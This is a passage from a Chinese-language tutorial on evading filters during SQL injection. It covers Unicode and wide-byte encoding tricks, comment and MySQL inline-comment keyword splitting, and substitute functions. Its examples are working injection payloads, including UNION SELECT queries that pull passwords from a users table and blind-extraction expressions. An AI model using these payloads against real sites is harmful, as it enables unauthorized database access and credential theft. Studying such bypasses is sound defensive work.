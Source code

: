 #### 3.Unicode编码

Unicode有所谓的标准编码和非标准编码假设我们用的utf-8为标准编码那么西欧语系所使用的就是非标准编码了

看一下常用的几个符号的一些Unicode编码
<pre class="highlight">单引号：%u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7

空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0

左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8

右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9
</pre>
举例：
<pre class="highlight">?id=10%D6'%20AND%201=2%23　　

SELECT 'Ä'='A'; #1
</pre>
两个示例中，前者利用双字节绕过，比如对单引号转义操作变成\'，那么就变成了%D6%5C'，%D6%5C构成了一个款字节即Unicode字节，单引号可以正常使用。

第二个示例使用的是两种不同编码的字符的比较，它们比较的结果可能是True或者False，关键在于Unicode编码种类繁多，基于黑名单的过滤器无法处理所以情况，从而实现绕过。

另外平时听得多一点的可能是utf-7的绕过，还有utf-16、utf-32的绕过，后者从成功的实现对google的绕过，有兴趣的朋友可以去了解下。

常见的编码当然还有二进制、八进制，它们不一定都派得上用场，但后面会提到使用二进制的例子。

### d) 使用注释

看一下常见的用于注释的符号有哪些
<pre class="highlight">//, -- , /**/, #, --+,--  -, ;--a 
</pre>

#### 1.普通注释

<pre class="highlight">z.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4
'union%a0select pass from users# 
</pre>
/**/在构造的查询语句中插入注释规避对空格的依赖或关键字识别#、--+用于终结语句的查询

#### 2.内联注释

相比普通注释内联注释用的更多/_!content_/只有MySQL会正常识别content的内容其他
<pre class="highlight">index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3 
?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4… 
</pre>
两个示例中前者使用内联注释后者还用到了普通注释。使用注释一个很有用的做法便是对关键字的拆分要做到这一点后面讨论的特殊符号也能实现当然前提是包括/、*在内的这些字符能正常使用。

### e)等价函数与命令

有些函数或命令因其关键字被检测出来而无法使用但是在很多情况下可以使用与之等价或类似的代码替代其使用

#### 1.函数或变量

<pre class="highlight">hex()、bin() ==&gt; ascii()
sleep() ==&gt;benchmark()
concat_ws()==&gt;group_concat()
mid()、substr() ==&gt; substring()
@@user ==&gt; user()
@@datadir ==&gt; datadir()
</pre>
举例substring()和substr()无法使用时
<pre class="highlight">?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　 
</pre>
或者
<pre class="highlight">substr((select 'password'),1,1) = 0x70 
strcmp(left('password',1), 0x69) = 1 
strcmp(left('password',1), 0x70) = 0 
strcmp(left('password',1), 0x71) = -1 
</pre>